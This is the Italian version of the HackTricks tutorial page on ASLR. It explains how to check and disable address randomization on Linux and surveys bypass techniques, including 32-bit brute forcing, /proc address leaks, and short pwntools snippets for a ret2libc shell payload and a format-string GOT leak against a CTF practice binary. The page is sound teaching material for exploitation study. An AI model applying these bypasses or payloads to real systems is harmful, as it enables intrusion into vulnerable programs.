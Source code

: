 # ASLR

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Informazioni di base

**Address Space Layout Randomization (ASLR)** è una tecnica di sicurezza utilizzata nei sistemi operativi per **randomizzare gli indirizzi di memoria** utilizzati dai processi di sistema e applicazione. In questo modo, rende significativamente più difficile per un attaccante prevedere la posizione di processi e dati specifici, come lo stack, l'heap e le librerie, mitigando così alcuni tipi di exploit, in particolare i buffer overflow.

### **Controllare lo stato di ASLR**

Per **controllare** lo stato di ASLR su un sistema Linux, puoi leggere il valore dal file `/proc/sys/kernel/randomize_va_space`. Il valore memorizzato in questo file determina il tipo di ASLR applicato:

* **0**: Nessuna randomizzazione. Tutto è statico.
* **1**: Randomizzazione conservativa. Le librerie condivise, lo stack, mmap(), la pagina VDSO sono randomizzati.
* **2**: Randomizzazione completa. Oltre agli elementi randomizzati dalla randomizzazione conservativa, la memoria gestita tramite `brk()` è randomizzata.

Puoi controllare lo stato di ASLR con il seguente comando:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **Disabilitare ASLR**

Per **disabilitare** ASLR, imposta il valore di `/proc/sys/kernel/randomize_va_space` a **0**. Disabilitare ASLR non è generalmente raccomandato al di fuori di scenari di test o debug. Ecco come puoi disabilitarlo:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
Puoi anche disabilitare ASLR per un'esecuzione con:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **Abilitare ASLR**

Per **abilitare** ASLR, puoi scrivere un valore di **2** nel file `/proc/sys/kernel/randomize_va_space`. Questo richiede tipicamente privilegi di root. L'abilitazione della randomizzazione completa può essere effettuata con il seguente comando:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Persistenza Attraverso i Riavvii**

Le modifiche apportate con i comandi `echo` sono temporanee e verranno ripristinate al riavvio. Per rendere la modifica persistente, è necessario modificare il file `/etc/sysctl.conf` e aggiungere o modificare la seguente riga:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
Dopo aver modificato `/etc/sysctl.conf`, applica le modifiche con:
```bash
sudo sysctl -p
```
Questo garantirà che le impostazioni ASLR rimangano attive tra i riavvii.

## **Bypasses**

### Forzatura brute-force a 32 bit

PaX divide lo spazio degli indirizzi del processo in **3 gruppi**:

* **Codice e dati** (inizializzati e non inizializzati): `.text`, `.data` e `.bss` —> **16 bit** di entropia nella variabile `delta_exec`. Questa variabile è inizializzata casualmente con ogni processo e aggiunta agli indirizzi iniziali.
* **Memoria** allocata da `mmap()` e **librerie condivise** —> **16 bit**, chiamata `delta_mmap`.
* **Lo stack** —> **24 bit**, indicato come `delta_stack`. Tuttavia, utilizza effettivamente **11 bit** (dal 10° al 20° byte inclusi), allineati a **16 byte** —> Questo porta a **524.288 possibili indirizzi reali dello stack**.

I dati precedenti sono per sistemi a 32 bit e l'entropia finale ridotta rende possibile bypassare ASLR riprovando l'esecuzione più e più volte fino a quando l'exploit non viene completato con successo.

#### Idee per la forzatura brute-force:

* Se hai un overflow abbastanza grande da ospitare un **grande NOP sled prima del shellcode**, potresti semplicemente forzare gli indirizzi nello stack fino a quando il flusso **salta sopra una parte del NOP sled**.
* Un'altra opzione per questo, nel caso in cui l'overflow non sia così grande e l'exploit possa essere eseguito localmente, è possibile **aggiungere il NOP sled e lo shellcode in una variabile d'ambiente**.
* Se l'exploit è locale, puoi provare a forzare l'indirizzo base di libc (utile per sistemi a 32 bit):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Se attacchi un server remoto, potresti provare a **forzare l'indirizzo della funzione `usleep` di `libc`**, passando come argomento 10 (per esempio). Se a un certo punto il **server impiega 10 secondi in più per rispondere**, hai trovato l'indirizzo di questa funzione.

{% hint style="success" %}
Nei sistemi a 64 bit, l'entropia è molto più alta e questo non è possibile.
{% endhint %}

### Informazioni Locali (`/proc/[pid]/stat`)

Il file **`/proc/[pid]/stat`** di un processo è sempre leggibile da tutti e **contiene informazioni interessanti** come:

* **startcode** & **endcode**: Indirizzi sopra e sotto con il **TESTO** del binario
* **startstack**: L'indirizzo dell'inizio dello **stack**
* **start\_data** & **end\_data**: Indirizzi sopra e sotto dove si trova il **BSS**
* **kstkesp** & **kstkeip**: Indirizzi attuali di **ESP** e **EIP**
* **arg\_start** & **arg\_end**: Indirizzi sopra e sotto dove si trovano gli **argomenti cli**.
* **env\_start** &**env\_end**: Indirizzi sopra e sotto dove si trovano le **variabili d'ambiente**.

Pertanto, se l'attaccante si trova sullo stesso computer del binario sfruttato e questo binario non si aspetta il overflow da argomenti raw, ma da un diverso **input che può essere creato dopo aver letto questo file**. È possibile per un attaccante **ottenere alcuni indirizzi da questo file e costruire offset da essi per l'exploit**.

{% hint style="success" %}
Per ulteriori informazioni su questo file, controlla [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html) cercando `/proc/pid/stat`
{% endhint %}

### Avere una leak

* **La sfida è fornire una leak**

Se ti viene fornita una leak (sfide CTF facili), puoi calcolare offset da essa (supponendo per esempio che tu conosca la versione esatta di libc utilizzata nel sistema che stai sfruttando). Questo esempio di exploit è estratto da [**esempio da qui**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (controlla quella pagina per ulteriori dettagli):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

Abusando di un buffer overflow sarebbe possibile sfruttare un **ret2plt** per esfiltrare un indirizzo di una funzione dalla libc. Controlla:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Format Strings Arbitrary Read**

Proprio come in ret2plt, se hai una lettura arbitraria tramite una vulnerabilità di format strings è possibile esfiltrare l'indirizzo di una **funzione libc** dal GOT. Il seguente [**esempio è da qui**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
Puoi trovare ulteriori informazioni su Format Strings lettura arbitraria in:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret & Ret2pop

Prova a bypassare ASLR abusando degli indirizzi all'interno dello stack:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos github.

</details>
{% endhint %}
